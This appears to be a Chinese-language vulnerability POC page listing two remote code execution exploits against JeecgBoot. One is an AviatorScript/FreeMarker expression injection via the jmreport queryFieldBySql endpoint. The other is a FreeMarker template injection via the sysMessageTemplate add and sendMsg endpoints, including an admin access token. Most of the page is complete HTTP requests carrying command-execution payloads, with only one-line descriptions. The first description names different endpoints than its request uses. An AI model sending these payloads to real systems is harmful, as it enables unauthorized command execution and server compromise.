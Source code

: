   
## JeecgBoot AviatorScript表达式注入  

```
积木报表软件存在AviatorScript代码注入RCE漏洞。使用接口/jmreport/save处在text中写入AviatorScript表达式。访问/jmreport/show触发AviatorScript解析从而导致命令执行。
POST /jeecg-boot/jmreport/queryFieldBySql?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Content-Length: 108
{&#34;sql&#34;:&#34;select 'result:<#assign ex=\&#34;freemarker.template.utility.Execute\&#34;?new()> ${ex(\&#34;whoami \&#34;) }'&#34; 
}
```

  
## jeecg-boot后台/sysMessageTemplate/sendMsg接口freemaker模板注入  

```
jeecg-boot的Freemarker模板注入导致远程命令执行, 远程攻击者可利用该漏洞调用在系统上执行任意命令。
1、添加一个测试模板
POST /jeecg-boot/sys/message/sysMessageTemplate/add HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 141
{&#34;templateType&#34;:&#34;1&#34;,&#34;templateCode&#34;:&#34;5&#34;,&#34;templateName&#34;:&#34;test111&#34;,&#34;templateContent&#34;:&#34;${\&#34;freemarker.template.utility.Execute\&#34;?new()(\&#34;id\&#34;)}&#34;}
2、发送模板
POST /jeecg-boot/sys/message/sysMessageTemplate/sendMsg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MzYyMTcyNDQsInVzZXJuYW1lIjoiYWRtaW4ifQ.-Z6FINUMTWQkOR6u009cde9BFyb-l65VWRhUXDz_2ao
Tenant-Id: 0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
Priority: u=0
Te: trailers
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 64
{&#34;templateCode&#34;:&#34;5&#34;,&#34;testData&#34;:&#34;{}&#34;,&#34;receiver&#34;:&#34;&#34;,&#34;msgType&#34;:&#34;1&#34;}
3、执行模板并查看返回结果
```